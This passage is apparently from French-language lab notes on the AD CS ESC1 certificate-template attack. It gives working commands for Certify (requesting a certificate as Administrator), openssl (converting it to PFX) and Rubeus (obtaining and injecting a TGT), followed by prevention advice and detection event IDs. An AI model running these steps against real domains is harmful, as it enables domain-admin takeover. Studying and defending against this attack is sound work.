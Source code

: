 #### 2. Demander un certificat en usurpant l’identité de **Administrator** :

```powershell
.\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator
```

Cela génère un **certificat au format PEM**.

#### 3. Convertir le certificat en **format PFX** (compatible avec Rubeus) :

```bash
sed -i 's/\s\s\+/\n/g' cert.pem
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### 4. Utiliser **Rubeus** pour obtenir un TGT en tant qu’**Administrator** :

```powershell
.\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt
```

Une fois le TGT chargé, vous pouvez par exemple accéder à `\\dc1\c$` en tant qu’Administrateur.

---

### 🛡️ Prévention

Pour se prémunir contre l’exploitation du modèle **ESC1** :

* **Désactiver le flag `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`** sur les modèles de certificat.
* **Activer l’approbation manuelle** (par un Certificate Manager) pour toute demande de certificat.

Il est recommandé de **scanner régulièrement l’environnement PKI** avec Certify ou un outil similaire afin de repérer les mauvaises configurations.

---

### 🔍 Détection

#### 📋 Événements Windows :

* **ID 4886** : Demande de certificat enregistrée.
* **ID 4887** : Certificat émis.
* **ID 4768** : TGT émis suite à l’authentification avec un certificat.

> **Limitation :** Les journaux ne montrent pas directement la valeur du SAN, ce qui peut limiter l’analyse automatique.

#### 🔧 Utilisation de `certutil` pour consulter les certificats émis :

```powershell
certutil -view
```

